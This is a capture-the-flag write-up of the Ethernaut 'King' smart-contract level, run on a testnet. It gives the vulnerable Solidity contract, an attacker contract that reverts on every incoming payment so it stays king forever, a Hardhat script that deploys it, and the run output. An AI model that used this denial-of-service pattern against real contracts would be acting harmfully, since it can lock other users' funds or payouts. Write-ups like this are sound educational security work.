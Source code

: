 ```yaml
---
title: Ethernaut King
tags: [ethernaut]
style: border
color: primary
description: Ethernaut King challenge writeup
---
```


## King

### Challenge

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

### Background

This challenge confused me for a moment. I had a rough idea of re-entrancy attacks so I though this might be some type of a re-entrancy attack. I started checking what I could do if I control the transfer function, but looking at the next challenge name (`re-entrancy`) I thought that this is most likely not the type of attack I'm looking at. It is however a simpler version of it. The reason I was confused however, is that the challenge was not so clear to me. Usually we are after getting ownership of funds out of the contract, now I just needed to stay the king for ever.

So what is important to note here is that an smart contract can run code when funds are being transfered to it.

### Attack

In order to stay king, we just need to make sure that once we become king, nobody can execute the receive function without a revert. This can be simply achieved by making a contract we controll the king and force `revert`ing when someone transfers funds to the contract. If we needed to we could also have some logic to enable or disable this functionality but there is not need for this for the particular challange. Also keep in mind that a simple transfer does not have enough gas to pull this off, so a call with a value needs to be used when passing funds to the `King` contract. 

* Create a contract that can send funds to the `King` contract using `call` and reverts when receiving funds
* Send enought funds to the `King` contract to make the attacker contract king

#### KingSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract KingSolve {

    constructor() public {}
    
    function becomeKing (address payable _king) public payable {
        // _king.call.value(msg.value)("");
        _king.call{value: msg.value}("");
    }

    receive() external payable {
        revert();
    }
}
```

#### king-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    kingAddress = "0xaa0130693AbE4a6a478224F96747dD98Ba2c5740";
    contract = await ethers.getContractAt("King", kingAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    KingSolve = await ethers.getContractFactory("KingSolve");
    kingSolve = await KingSolve.deploy();
    await kingSolve.deployed();

    console.log("Level address: " + contract.address)
    console.log("Contract King: " + await contract._king())

    // get current price
    prize = await contract.prize()
    console.log("Current Prize: " + prize)

    // send funds buy calling selfdestruct
    tx = await kingSolve.connect(account).becomeKing(contract.address, { value: prize })
    receipt = await tx.wait()

    console.log("Contract King: " + await contract._king())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/king-solve.js --network rinkeby
Level address: 0xaa0130693AbE4a6a478224F96747dD98Ba2c5740
Contract King: 0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5
Current Prize: 1000000000000000
Contract King: 0x868A70Ca70a8089b979051Efc3e7e649DB1bdC82
```

### Success Message

Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).
